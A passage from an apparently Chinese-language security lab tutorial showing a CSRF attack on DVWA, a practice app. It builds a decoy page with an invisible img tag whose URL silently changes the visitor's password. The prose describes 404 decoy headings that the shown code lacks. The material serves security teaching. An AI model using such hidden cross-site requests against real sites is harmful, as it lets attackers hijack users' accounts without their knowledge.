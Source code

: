 创建一个 404 的页面，使用 img 标签，使用 css 来使其不现实，这样用户就在不知不觉直接就中招了。

首先我们在 shiyanlou 账户的终端下创建一个 test 的 html：

```
vim test.html
```

然后在该文件中存放这样的内容：

```html
<html>
<body>

<img src="http://192.168.122.102/dvwa/vulnerabilities/csrf/?password_new=shiyanlou_html&password_conf=shiyanlou_html&Change=Change#" border="0" style="display:none;"/>

<h1>Welcome to nginx!</h1>

</body>

</html>
```

可以看到，我们就用了两个标题 404、无法找到来迷惑大家，然后用 img 标签使其自动加载我们放置的钓鱼连接，但是不显示，这样就算中招了也不知道。

保存退出后，我们在家目录中找到该文件：

![show-file](../imgs/wm_225.png)
